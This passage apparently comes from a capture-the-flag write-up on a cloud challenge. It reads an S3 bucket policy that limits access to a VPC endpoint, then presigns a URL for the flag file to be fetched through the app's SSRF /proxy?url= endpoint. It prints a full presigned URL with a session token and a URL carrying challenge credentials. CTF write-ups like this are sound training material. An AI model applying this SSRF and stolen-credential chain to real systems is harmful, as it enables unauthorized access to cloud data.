 Might as well go down the list. Starting with bucket policy. 
```bash
aws --profile jyw s3api get-bucket-policy --bucket challenge01-470f711
# {
#     "Policy": "{\"Version\":\"2012-10-17\",\"Statement\":[{\"Effect\":\"Deny\",\"Principal\":\"*\",\"Action\":\"s3:GetObject\",\"Resource\":\"arn:aws:s3:::challenge01-470f711/private/*\",\"Condition\":{\"StringNotEquals\":{\"aws:SourceVpce\":\"vpce-0dfd8b6aa1642a057\"}}}]}"
# }
```
What this tells me is that even with valid IAM credentials, S3 only allows access to private/ objects if the request comes from a specific VPC endpoint. Since this CLI is not inside the VPC, we are getting that 403 Forbidden.

Wait a minute. Our EC2 instance running the Spring Boot app is inside the VPC. What if we let the EC2 access the file on our behalf? 
- We already have access to EC2 via the /proxy?url=... endpoint.

So, let the EC2 instance make the S3 request.

## Step 8: Presigned URLs 
What is Presigned URLs?
- A secure, temporary URL to an object in S3.
- You generate it locally, using valid credentials (like EC2 creds).
- It works even if the user accessing it is anonymous — the credentials are baked into the signature.
- Works via HTTP GET → perfect for curl.
- Bypass IAM/VPC context for the downloader — the signer (you) takes responsibility.

```bash
aws --profile jyw s3 presign s3://challenge01-470f711/private/flag.txt
# https://challenge01-470f711.s3.amazonaws.com/private/flag.txt?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=ASIARK7LBOHXN6LAGPDX%2F20250707%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20250707T201531Z&X-Amz-Expires=3600&X-Amz-SignedHeaders=host&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEHQaCXVzLWVhc3QtMSJIMEYCIQDwaDxUHTL2imqEID23XaYez4arGqDcU4RVye%2BfY0hMiAIhAKP%2BSYY1N%2F05wgj8Ft1wIKRNM8YCsNBjpwXFhGD%2BO%2BuLKrgFCH0QABoMMDkyMjk3ODUxMzc0Igx4nW2KW6mg9nxn8cgqlQXv2hycLCoMKddmp%2BH5eiBulE2oUCb7ruKo14lYJy%2FPpunobTIYJ6I7DmF5q9LDCIye2nMm%2BotOfaqTp4gNnJjqzFMiPNk5evyDfkg6PQQ9k0be1dUfMlKiLSOadKutilv7pSDpUtedYRUeJ0apQl0EPDXt85QBhqc16UoM2QDQdgI0esYXlDKnNwMioBHSi47a5%2B64xowt%2Fi4tBZtVdARxKsU32bPpfk1dWQyw4sZ5OQGt123b6yLEQfrkv9435mrQG7dpgyliteKYRG%2F1c%2F9xs8A57s%2FsJA2HmXsIUI8EGpc1hMQqZvQoTysD7MFEVV5TerG5lPey64SIy7sBf4W0wDeDv7aoCxcqdT1KfKVUY1y3pnsCkFRwRyFcP%2B2%2BodGMREFsqBeskwpl%2Fk2Y1q1m%2B6Asnaa4ALZcrPvh08k8BBecIYy0qp3ZJCugypxU%2Bf0sjUwvqY4IMbfrqul89ir%2FBigrCBHcElLEtpYDK8BahFQPZQlwAbOcPZpiVzS%2Bp3Bz1zzrnsnqWQ%2B2obZV8tj0pTdWKuW188AmT7D3s%2FdikMp7yCF%2FqiYfz0tnbm4ffyxCvICQtZOgNHSoOql6VBpxdgCSYKimRpm%2BR8ewwdltCEJeMEPO0eBJWEUuc%2BRv0Apv5cEuAoRlaaLg51e2dgieIaWr3Sqrv07W6se%2BsPB7qsiHmt7%2FtJZKbhrAYM1F3asVBvJ03rST%2F3Dmhgt3wDmeNFrbhLRhf5MVTLcYZXTEdd%2BP5S8YaEvyGykFWhvQr3NfEuupYgwOEuPwKoK49EYBrFiUf2TAwbWPfwjuMWDCoDtDT%2Bi7Fthr%2BO120GRdsOOmMDav2YNLXAxJ1HLjvbGzrKXNB3ONcVO5Mz0HsvdkBwu94TLgMK7DsMMGOrABPvW1ZRtbzOk%2BgbCGDhMDFP808eTjMzaUS2lK%2BUGfUgJ8dt4l%2BP7rzwEKASVBzn8VfdJPy%2BMjo28LngLlV46LVtnAyr%2BHRxYpB8CzNQdlrEWKWRlkLfxgknPAh7Ioq1xcznJ%2FXdTVG8ilXmpoiqwMP48uNcGqy1awRVSO5zQz8tNh2vyOmIay7SkpEjhgfftVwUmONlR9b9ZTK3u6OKWdHE9WVpQkLD4WpWrbyxIUQmY%3D&X-Amz-Signature=83e1442881618ccc32dcee8c37d4f29b53a9d84ab641f374097d352b30b28c11
```
We can pass the URL as a query string parameter
```bash
https://ctf:88sPVWyC2P3p@challenge01.cloud-champions.com/proxy?url=<PRESIGNED_URL>
```
The URL is being passed as the value to the url= parameter.
If it contains characters like &, =, ?, they may break or truncate the parameter.


[^1]: [Spring: Spring Boot](https://docs.spring.io/spring-boot/index.html)
[^2]: [Spring: Health (health)](https://docs.spring.io/spring-boot/api/rest/actuator/health.html#page-title)
[^3]: [Spring: Endpoints](https://docs.spring.io/spring-boot/reference/actuator/endpoints.html#page-title)
[^4]: [Spring: Mappings (mappings)](https://docs.spring.io/spring-boot/api/rest/actuator/mappings.html#page-title)
[^5]: [AWS: Use the Instance metadata Service to access instance metadata](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-service.html#instance-metadata-retrieval-examples-imdsv1)
[^6]: [AWS: Retrieve security credentials from instance metadata](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instance-metadata-security-credentials.html)
[^7]: [AWS: Troubleshoot access denied (403 Forbidden) errors in Amazon S3](https://docs.aws.amazon.com/AmazonS3/latest/userguide/troubleshoot-403-errors.html)